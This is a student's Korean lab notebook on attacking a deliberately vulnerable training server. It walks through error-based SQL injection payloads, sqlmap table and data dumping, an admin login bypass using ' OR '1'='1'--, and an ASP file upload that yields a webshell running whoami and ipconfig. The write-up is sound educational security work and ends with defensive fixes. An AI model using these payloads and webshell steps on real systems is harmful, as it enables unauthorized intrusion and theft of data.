hacker' AND 1=CONVERT(int,(SELECT TOP 1 mem_id+':'+mem_name FROM member WHERE mem_id='hacker'))--<space>
```

```text
varchar 값 'hacker:HACKER'을(를) int 데이터 형식의 열로 변환하는 중 구문 오류가 발생했습니다.
```

`# 1. 클라이언트 검증 우회`에서 직접 만든 더미 계정의 `mem_id`와 `mem_name`이 실제로 노출됨을 확인했다.

> [!success] 수동 추출 결과
> SQL Server 오류 메시지를 이용하여 `camel -> member -> mem_id -> hacker:HACKER` 순서로 DB 구조와 더미 Data를 직접 확인했다.
>
> 따라서 SqlMap 자동 진단에 의존하지 않아도 Camel 로그인 기능의 `id` parameter에서 Error 기반 SQL Injection이 가능하다고 판정할 수 있다.

### 3-6. SqlMap으로 DB 정보 추출

처음 계획한 3단계로 넘어가 DB 구조와 더미 계정 1건을 확인했다.

```bash
sqlmap -u "http://172.16.0.80/login/login_chk.asp?ba=search&re_url=&id=wkddnsgh&pass=0000" \
  -p id \
  --batch \
  -D camel \
  --tables
```

`camel` Database에는 30개 Table이 출력되었다. 이 중 회원정보가 저장된 것으로 보이는 `member` Table을 선택했다.

```bash
sqlmap -u "http://172.16.0.80/login/login_chk.asp?ba=search&re_url=&id=wkddnsgh&pass=0000" \
  -p id \
  --batch \
  -D camel \
  -T member \
  --columns
```

```text
Table: member
[11 columns]

mem_addr1, mem_addr2, mem_email, mem_hp, mem_id, mem_jumin,
mem_name, mem_pwd, mem_tel, mem_wtday, mem_zip
```

실제 Data가 노출되는지 확인할 때에는 전체 회원을 조회하지 않고, `# 1. 클라이언트 검증 우회`에서 직접 만든 더미 계정 `hacker`만 조건으로 지정했다.

```bash
sqlmap -u "http://172.16.0.80/login/login_chk.asp?ba=search&re_url=&id=wkddnsgh&pass=0000" \
  -p id \
  --batch \
  -D camel \
  -T member \
  --where="mem_id='hacker'" \
  --dump
```

```text
Database: camel
Table: member
[1 entry]

mem_id: hacker
mem_name: HACKER
mem_pwd: <REDACTED>
mem_jumin: <REDACTED>
나머지 일부 field: <blank> 또는 구분자만 남은 값
```

> [!important] 범위 제한
> `--dump`는 Table의 실제 행 Data를 출력한다. 실습 목표는 Data 노출 가능성을 입증하는 것이므로, 더미 계정 `hacker` 1건으로 범위를 제한한다.
>
> 범위 제한 없이 출력된 화면에는 더미 계정 외 데이터가 포함되어 있으므로 증거로 사용하지 않는다.

이전 CARE 실습은 MySQL 계열이었다. Camel은 Microsoft SQL Server 2000이므로 `updatexml()` 또는 `group_concat()` 같은 MySQL 계열 방식을 그대로 재사용하지 않는다.

### 3-7. Paros Spider로 관리자 로그인 endpoint 발견

일반 회원 로그인 endpoint `/login/login_chk.asp`에서는 이전 실습의 단순 payload로 인증 우회에 성공하지 못했다. 이후 강사님의 안내에 따라 Paros의 `Analyse -> Spider`를 실행하여 웹 애플리케이션의 경로를 수집했다.

Spider 결과에서 별도의 관리자 로그인 경로를 발견했다.

```text
/admin/index.asp
/admin/admin_login.asp
```

`/admin/index.asp`의 HTML source를 확인하면 관리자 로그인 폼은 ID와 비밀번호를 입력받는다.

```html
<form name="form" method="post" action="admin_login.asp">
    <input type="text" name="admin_id">
    <input type="password" name="admin_pass">
</form>
```

브라우저 입력 단계에서는 JavaScript가 ID와 비밀번호의 빈칸을 검사한다. 따라서 비밀번호에는 빈 값 대신 더미 값 `1`을 넣었다.

### 3-8. 관리자 로그인 SQL Injection 인증 우회

관리자 로그인 화면에서 다음 값을 입력했다.

```text
ID: ' OR '1'='1'--<space>
Password: 1
```

POST body의 핵심 값은 아래와 같다.

```text
admin_id=%27+OR+%271%27%3D%271%27--+&admin_pass=1
```

입력한 ID payload의 역할:

| 조각 | 역할 |
|---|---|
| `'` | 원래 문자열을 닫음 |
| `OR '1'='1'` | 항상 참인 조건을 추가 |
| `--<space>` | 뒤쪽 비밀번호 조건을 주석 처리 |
| `admin_pass=1` | 브라우저의 빈칸 검사를 통과하기 위한 더미 값 |

요청 처리 후 브라우저는 관리자 페이지 `/admin/admin.asp`로 이동했다. 화면에는 주문관리, 회원관리, 상품관리, 접속통계 등 관리자 전용 메뉴가 표시되었다.

> [!success] 관리자 인증 우회 결과
> Paros Spider로 일반 사용자 화면에서 바로 드러나지 않던 관리자 로그인 endpoint를 발견했다.
>
> `admin_id`에 항상 참 조건과 주석을 포함한 payload를 넣고, `admin_pass`에는 더미 값 `1`을 입력하여 관리자 페이지에 접근했다.
>
> 따라서 `/admin/admin_login.asp`의 `admin_id` parameter에서도 SQL Injection을 이용한 관리자 인증 우회가 가능하다.

## 4. 증거 - SQL Injection

| 증거                                   | 설명                                                                                  |
| ------------------------------------ | ----------------------------------------------------------------------------------- |
| `3-2`의 시도 표                          | 아무 계정 및 특정 계정 인증 우회가 실패한 흐름                                                         |
| `3-3`의 request/response 발췌           | `id=%27`에서 SQL Server 오류가 발생한 결과                                                    |
| `3-4`의 SqlMap 실행 결과                  | `id` injection point, SQL Server 2000 fingerprint, 현재 DB명 `camel` 확인                |
| ![[Pasted image 20260601030208.png]] | `camel` Database의 Table 목록. `member` Table 포함                                       |
| ![[Pasted image 20260601030405.png]] | `member` Table의 11개 Column 목록                                                       |
| ![[Pasted image 20260601030323.png]] | 범위를 제한하여 더미 계정 `hacker` 1건만 출력한 결과                                                  |
| ![[Pasted image 20260601102025.png]] | 수동 Error 기반 SQL Injection으로 현재 Database명 `camel`을 확인한 결과                            |
| ![[Pasted image 20260601102052.png]] | `sysobjects` 조회 결과를 오류 메시지에 노출시켜 사용자 Table `member`를 확인한 결과                         |
| ![[Pasted image 20260601102119.png]] | `syscolumns` 조회 결과를 오류 메시지에 노출시켜 `member` Table의 `mem_id` Column을 확인한 결과            |
| ![[Pasted image 20260601102151.png]] | 직접 만든 더미 계정의 Data `hacker:HACKER`가 오류 메시지에 노출된 결과                                   |
| ![[Pasted image 20260601102222.png]] | 다른 Row의 Data도 같은 방식으로 노출될 수 있음을 확인한 추가 화면. 핵심 판정에는 사용하지 않음                          |
| ![[Pasted image 20260601103818.png]] | Paros Spider로 발견한 `/admin/index.asp` 관리자 로그인 화면. ID와 Password 입력을 요구함               |
| ![[Pasted image 20260601104646.png]] | Paros에서 Trap한 관리자 로그인 POST Request. `admin_id`에 항상 참 조건과 주석을 넣고 `admin_pass=1`을 전송함 |
| ![[Pasted image 20260601104509.png]] | `admin_id` SQL Injection 인증 우회 후 접근한 `/admin/admin.asp` 관리자 페이지. 관리자 전용 메뉴가 표시됨     |

> [!warning] PDF 제출 전 확인
> 더미 값이라도 비밀번호와 주민번호 형태의 값은 마스킹한다.
>
> `Pasted image 20260601030445.png`에는 범위 제한 없이 출력된 데이터가 포함되어 있다. 이 노트의 증거로 사용하지 않으며, PDF에도 포함하지 않는다.

## 5. 판정

> [!success] 성공
> 처음 계획한 아무 계정 및 특정 계정 인증 우회는 성공하지 못했다.
>
> 그러나 실패 원인을 조사하는 과정에서 `id=%27` 요청이 SQL Server 오류를 발생시키는 것을 확인했다. SqlMap도 `id`를 SQL Injection point로 탐지하고, Microsoft SQL Server 2000 fingerprint와 현재 DB명 `camel`을 확인했다.
>
> 이후 SQL Server 오류 메시지를 이용한 수동 추출로 `camel -> member -> mem_id -> hacker:HACKER` 순서의 정보 노출을 직접 확인했다. SqlMap 자동 추출로도 `camel` Database의 Table 목록, `member` Table의 Column 목록, 더미 계정 `hacker` 1건의 Data를 교차검증했다.
>
> 일반 회원 로그인 endpoint에서는 이전 실습의 단순 인증 우회 payload가 동작하지 않았지만, Paros Spider로 발견한 별도 관리자 로그인 endpoint `/admin/admin_login.asp`에서는 `admin_id` parameter를 조작하여 관리자 페이지에 접근했다.
>
> 따라서 Camel 로그인 기능의 `id` parameter는 SQL Injection에 취약하며, 이를 통해 DB 구조와 실제 Data가 노출될 수 있다.

## 6. 남은 확인

- 일반 회원 로그인 endpoint의 수동 인증 우회: 이전 실습의 단순 payload로는 성공하지 못함
- 관리자 로그인 endpoint의 수동 인증 우회: `admin_id` parameter 조작으로 성공
- 진단 대상 parameter: `id` 확인
- DBMS: Microsoft SQL Server 2000 확인
- DB명: `camel` 확인
- 수동 Error 기반 정보 추출: `camel -> member -> mem_id -> hacker:HACKER` 확인
- DB 정보 추출: Table 목록, `member` Column 목록, 더미 계정 `hacker` 1건 확인
- Data 확인 범위: 더미 계정 1건으로 제한. 추가 dump 불필요
- 수동 인증 우회 실패 원인: 서버 ASP 원문을 확인하지 않았으므로 미확정
- PDF 제출 전: 더미 계정 스크린샷의 비밀번호와 주민번호 형태 값 마스킹 필요
- 방어 관점: 동적 SQL 문자열 결합을 사용하지 않고 parameterized query를 적용하며, 상세 DB 오류를 사용자에게 노출하지 않음

# 6. 파일업로드 취약점(webshell.asp)

## 목표

> [!summary] 확인할 것
> Camel에서 파일 업로드 기능을 통해 ASP 파일을 업로드하고, 서버 측 코드 실행에서 OS 명령 실행까지 이어지는지 확인한다.

> [!success] 최종 결과
> Camel 게시판에 ASP 파일을 업로드하고, 웹에서 직접 접근하여 서버 측 코드가 실행되는 것을 확인했다.
>
> 이후 구형 환경에 맞춘 제한형 Webshell과 강사님 제공 Webshell에서 OS 명령을 실행하고 결과가 반환되는 것을 확인했다.

## 기준 자료

- 기준 자료: [웹쉘 Upload 및 실행 실습](https://github.com/Unoh03/Obsi2/blob/main/10_%ED%95%99%EC%8A%B5%20%EB%85%B8%ED%8A%B8/%EC%8B%9C%EC%8A%A4%ED%85%9C%EB%B3%B4%EC%95%88/%EC%9B%B9%EB%B3%B4%EC%95%88/%EC%9B%B9%EC%89%98%20Upload%20%EB%B0%8F%20%EC%8B%A4%ED%96%89%20%EC%8B%A4%EC%8A%B5.md)
- 참고할 부분: 업로드된 서버 측 스크립트가 웹 접근 가능한 경로에 저장되고 실행되는지 확인하는 방식.
- Camel에서 다시 확인할 것: 업로드 기능 존재 여부, 허용 확장자, 저장 경로, `.asp` 실행 가능 여부, `webshell.asp` 접근 URL.

## 1. 분석

### 대상 화면과 요청

| 항목 | 값 |
|---|---|
| 화면 | Camel 게시판 글쓰기 화면 |
| 업로드 처리 endpoint | `/board/board_insert.asp` |
| method | `POST` |
| Content-Type | `multipart/form-data` |
| 파일 field | `info_file` |
| 게시판 구분 | `gubun=gel` |
| 정상 업로드 파일 | `123.txt` |
| 파일 직접 접근 URL | `http://172.16.0.80/board/upload/123.txt` |
| 사용 도구 | Paros, 브라우저 |

### 관련 코드 또는 응답

정상 파일 `123.txt`를 첨부하여 글을 작성하고, Paros에서 업로드 요청을 확인했다.

```http
POST /board/board_insert.asp HTTP/1.1
Content-Type: multipart/form-data; boundary=<BOUNDARY>
```

```text
Content-Disposition: form-data; name="info_title"

Webshell2
```

```text
Content-Disposition: form-data; name="info_file"; filename="123.txt"
Content-Type: text/plain

456
```

```text
Content-Disposition: form-data; name="html_ch"

txt
```

### 분석 메모

- 관찰한 사실:
  - Camel 게시판 글쓰기 요청은 `POST /board/board_insert.asp`로 전송된다.
  - 파일은 `multipart/form-data` 형식의 `info_file` field로 전달된다.
  - 정상 파일 `123.txt`를 첨부한 글 작성이 가능했다.
  - 업로드된 파일은 `http://172.16.0.80/board/upload/123.txt`로 직접 접근할 수 있었다.
  - 업로드 파일의 원본 파일명 `123.txt`가 URL에 그대로 유지되었다.
  - 안전한 ASP 실행 확인용 파일 `test.asp`도 업로드할 수 있었다.
  - `http://172.16.0.80/board/upload/test.asp`에 접근하자 ASP 코드가 실행되어 `asp execute test`가 출력되었다.
- 수상한 지점:
  - 업로드 파일이 `/board/upload/` 아래의 웹 접근 가능한 경로에 저장된다.
  - 원본 파일명이 유지되므로 업로드 URL을 예측하기 쉽다.
- 확인한 것:
  - `.asp` 확장자 업로드가 허용된다.
  - `/board/upload/` 경로에서 업로드한 ASP가 서버 측 코드로 실행된다.
  - 구형 환경에 맞춘 제한형 Webshell에서 `ver` 명령을 실행하고 결과를 브라우저로 확인했다.
  - 강사님 제공 Webshell에서 `whoami`, `ipconfig /all`을 실행하고 결과를 브라우저로 확인했다.
- 우회 또는 공격 가능성:
  - 공격자가 서버 측 명령 실행 기능을 가진 ASP 파일을 업로드한다면 Webshell로 이어질 수 있다.
  - 이번 실습에서는 임의 문자열을 입력받는 범용 Webshell 대신, 허용된 명령만 선택할 수 있는 제한형 Webshell로 공격 흐름을 확인했다.

## 2. 가설

> [!note] 가설
> Camel이 `.asp` 파일 업로드를 허용하고 웹 접근 가능한 경로에서 ASP를 실행한다면, `webshell.asp` 접근으로 서버 측 코드 실행을 확인할 수 있을 것이다.

| 근거 | 예상 |
|---|---|
| 정상 파일 `123.txt` 업로드 성공 | 게시판의 `info_file` field가 실제 파일 업로드를 처리함 |
| `/board/upload/123.txt` 직접 접근 성공 | 업로드 파일이 webroot 아래의 예측 가능한 경로에 저장됨 |
| Camel이 IIS 5.0과 ASP를 사용함 | `.asp` 업로드가 허용되면 `/board/upload/`에서 서버 측 실행으로 이어질 가능성이 있음 |

## 3. 실행

> [!todo] 실습 절차
> 1. 업로드 기능과 request 구조를 찾는다. 확인 완료
> 2. 정상 파일 업로드와 직접 접근 경로를 확인한다. 확인 완료
> 3. 안전한 ASP 실행 확인용 파일을 업로드한다. 확인 완료
> 4. 직접 URL 접근으로 ASP 실행 여부를 확인한다. 확인 완료
> 5. 구형 환경에 맞는 제한형 Webshell로 OS 명령 실행과 결과 반환을 확인한다. 확인 완료
> 6. 강사님 제공 Webshell에서 임의 명령 입력과 결과 반환을 확인한다. 확인 완료

### 3-1. 정상 파일 업로드

```text
파일명: 123.txt
내용: 456
업로드 endpoint: POST /board/board_insert.asp
file field: info_file
```

### 3-2. 업로드 파일 직접 접근

```text
http://172.16.0.80/board/upload/123.txt
```

위 URL로 정상 파일에 직접 접근했다.

### 3-3. 한글 파일명 트러블슈팅

처음에는 한글 파일명과 한글 내용을 가진 텍스트 파일을 올렸다. Paros에서 파일명과 본문이 깨져 보여 요청 구조를 읽기 어려웠다.

```text
원인 후보: Windows와 기존 Camel 환경 사이의 문자 인코딩 차이
조치: ASCII 파일명 123.txt와 ASCII 내용 456으로 다시 업로드
결과: file field와 직접 접근 URL을 명확하게 확인
```

### 3-4. ASP 실행 여부 확인

PHP Webshell을 그대로 올리지 않고, Camel의 Classic ASP 환경에 맞춘 안전한 실행 확인용 파일 `test.asp`를 사용했다.

```asp
<%@ Language=VBScript %>
<%
Response.ContentType = "text/plain"
Response.Write "asp execute test"
%>
```

업로드 후 아래 URL로 직접 접근했다.

```text
http://172.16.0.80/board/upload/test.asp
```

브라우저에 `asp execute test`가 출력되었다. 이는 파일 내용이 단순 다운로드되거나 텍스트로 노출된 것이 아니라, IIS에서 ASP 코드로 실행되었다는 증거다.



### 3-5. `.Exec()` 기반 Webshell 실패

처음에는 브라우저 입력값을 받아 `WScript.Shell.Exec()`로 실행하고, `StdOut`과 `StdErr`를 바로 읽는 ASP Webshell을 시도했다.

입력창은 정상적으로 표시되었지만, 명령을 제출하자 다음 오류가 출력되었다.

```text
실행 오류: 개체가 이 속성 또는 메서드를 지원하지 않습니다.
```

Camel은 Windows 2000 기반의 구형 환경이다. 따라서 현재 환경의 `WScript.Shell`이 `.Exec()` 또는 그 결과 객체를 지원하지 않는 것으로 추정했다.

> [!note] `.Exec()`와 `.Run()`의 차이
> `.Exec()`는 실행 결과를 `StdOut`, `StdErr`로 직접 읽을 수 있다. `.Run()`은 명령 실행 후 종료 코드만 반환하므로, 출력값을 읽으려면 파일을 경유해야 한다.

진단용 ASP에서 고정된 명령을 `.Run()`으로 실행한 결과는 다음과 같았다.

```text
CreateObject: 0
MapPath: 0
Run: 0
ExitCode: 0
```

즉, IIS에서 `WScript.Shell` 객체 생성과 OS 명령 실행은 가능했다. 문제는 명령 실행 자체가 아니라 `.Exec()` 기반 출력 수집 방식이었다.

### 3-6. 제한형 Webshell 실행

구형 환경에서도 동작하도록 제한형 Webshell의 흐름을 변경했다.

```text
브라우저에서 허용된 명령 선택
→ ASP가 WScript.Shell.Run()으로 cmd.exe 실행
→ 명령 출력값을 임시 text 파일에 저장
→ ASP가 text 파일을 읽음
→ 브라우저에 결과 출력
```

`Windows version` 항목을 선택하여 `ver` 명령을 실행하자 다음 결과가 출력되었다.

```text
ExitCode: 0
Microsoft Windows 2000 [Version 5.00.2195]
```



### 3-7. 강사님 제공 Webshell 실행

추가 실습 시간에 강사님이 Windows 2000 환경에 맞춘 `webshell.asp`를 제공했다.

이 파일은 브라우저 입력창에서 명령을 받아 `WScript.Shell.Run()`으로 실행한다. 실행 결과는 임시 파일에 저장한 뒤 ASP가 읽어서 브라우저에 출력한다. 출력이 끝나면 임시 파일을 삭제한다.

```text
브라우저에서 명령 입력
→ webshell.asp가 WScript.Shell.Run()으로 cmd.exe 실행
→ 명령 출력값을 임시 파일에 저장
→ ASP가 결과를 읽어 브라우저에 출력
→ 임시 파일 삭제
```

먼저 `whoami`를 입력했다.

```cmd
whoami
```

화면에는 아래 계정이 출력되었다.

```text
\\HACKERS-WEB\IUSR_HACKERS-WEB
```

`HACKERS-WEB`은 Camel 서버의 컴퓨터명이고, `IUSR_HACKERS-WEB`은 IIS가 Webshell 명령을 실행할 때 사용하는 계정이다.

이어서 `ipconfig /all`을 입력하자 Camel 서버의 Windows 2000 IP 설정 정보가 출력되었다.

```cmd
ipconfig /all
```

따라서 업로드한 Webshell을 통해 브라우저에서 명령을 입력하고, Camel 서버에서 실행된 결과를 다시 브라우저로 확인할 수 있다.

## 4. 증거 - 파일 업로드 취약점

| 증거                                   | 설명                                                                    |
| ------------------------------------ | --------------------------------------------------------------------- |
| 위 multipart request 발췌               | `info_file`, `filename="123.txt"`, `Content-Type: text/plain` 확인      |
| ![[Pasted image 20260601034016.png]] | 정상 파일이 첨부된 게시글 화면                                                     |
| ![[Pasted image 20260601034003.png]] | `/board/upload/123.txt` 직접 접근 결과                                      |
| ![[Pasted image 20260601034429.png]] | `/board/upload/test.asp` 접근 시 ASP 코드가 실행되어 `asp execute test`가 출력된 화면 |
| ![[Pasted image 20260601040957.png]] | `.Exec()` 기반 Webshell에서 `개체가 이 속성 또는 메서드를 지원하지 않습니다.` 오류가 출력된 화면      |
| ![[Pasted image 20260601044048.png]] | 제한형 Webshell에서 `ver` 명령 실행 후 Windows 2000 버전 정보가 반환된 화면               |
| ![[Pasted image 20260601100745.png]] | 강사님 제공 Webshell에서 `whoami`를 실행하여 IIS 실행 계정 `IUSR_HACKERS-WEB`을 확인한 화면 |
| ![[Pasted image 20260601101045.png]] | 강사님 제공 Webshell에서 `ipconfig /all`을 실행하여 Camel 서버의 IP 설정 정보가 반환된 화면 |

## 5. 판정

> [!success] 성공
> Camel 게시판은 업로드 파일의 확장자를 안전하게 제한하지 않는다. 업로드 파일은 원본 파일명을 유지한 채 `/board/upload/` 아래에서 직접 접근할 수 있으며, 업로드한 ASP는 IIS에서 서버 측 코드로 실행되었다.
>
> 또한 강사님 제공 Webshell에서 `whoami`, `ipconfig /all`을 실행하고 결과를 브라우저로 확인했다. 따라서 Camel의 파일 업로드 취약점을 이용하여 Webshell 실행까지 이어질 수 있음을 확인했다.

## 6. 남은 확인

- 업로드 기능 위치: `/board/board_insert.asp`의 `info_file` field 확인
- 저장 경로와 접근 URL: `/board/upload/123.txt` 직접 접근 확인
- `.asp` 실행 가능 여부: `/board/upload/test.asp` 접근 시 `asp execute test` 출력 확인
- Webshell 실행 범위: 제한형 Webshell에서 `ver` 명령 실행과 결과 반환 확인
- 강사님 제공 Webshell: `whoami`, `ipconfig /all` 명령 실행과 결과 반환 확인
- 환경 차이: 구형 환경에서는 `.Exec()` 기반 출력 수집이 동작하지 않아 `.Run()`과 임시 text 파일을 사용
- 방어 관점:
  - 허용할 확장자만 allowlist 방식으로 제한한다.
  - 업로드 파일은 원본 파일명 대신 서버가 생성한 이름으로 저장한다.
  - 업로드 파일을 webroot 밖에 저장하거나, 업로드 경로에서 ASP 실행을 비활성화한다.

# 트러블슈팅 로그

## Camel: ERR_EMPTY_RESPONSE
![[Pasted image 20260529183534.png]]

- 그냥 처음부터 무반응.

```cmd
C:\Windows\system32>ping 172.16.0.80

Ping 172.16.0.80 32바이트 데이터 사용:
172.16.0.80의 응답: 바이트=32 시간<1ms TTL=128
172.16.0.80의 응답: 바이트=32 시간<1ms TTL=128
172.16.0.80의 응답: 바이트=32 시간<1ms TTL=128
172.16.0.80의 응답: 바이트=32 시간<1ms TTL=128

172.16.0.80에 대한 Ping 통계:
    패킷: 보냄 = 4, 받음 = 4, 손실 = 0 (0% 손실),
왕복 시간(밀리초):
    최소 = 0ms, 최대 = 0ms, 평균 = 0ms

C:\Windows\system32>
```

- 통신은 정상 확인.
- GNS 리스타트 → 실패
- ~~VMnet 새로 뚫어주고, GNS에서 사진과 같이 새로 연결~~

![[Pasted image 20260529184153.png]]

- **뒷자리 얘기 엿듣고 :8080 지웠더니 됨**
